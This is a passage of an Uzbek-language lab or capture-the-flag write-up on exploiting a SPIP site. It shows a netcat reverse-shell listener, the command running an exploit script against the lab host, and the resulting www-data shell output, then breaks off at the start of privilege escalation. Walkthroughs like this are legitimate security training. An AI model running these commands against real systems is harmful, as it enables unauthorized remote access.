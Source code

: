 Reverse shellni qabul qilish:

```
nc -lvnp 4444
```

Ishga tushirish:

```
python3 exploit.py -u http://10.10.252.203/spip -l bizning_ip -p 4444
```

Natija:

```
╭─mete   󰉖 ~
╰─ ❯❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.252.203 51406
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@41c976e507f8:/home/think/spip/spip$ ls
ls
CHANGELOG.md
IMG
LICENSE
README.md
SECURITY.md
composer.json
composer.lock
config
ecrire
htaccess.txt
index.php
local
plugins-dist
plugins-dist.json
prive
spip.php
spip.png
spip.svg
squelettes-dist
tmp
vendor
www-data@41c976e507f8:/home/think/spip/spip$ 
```



## Privilage Escalation

Hozirgi holat:

```
www-data@41c976e507f8:/home/think/spip/spip$ whoami
whoami
www-data
```
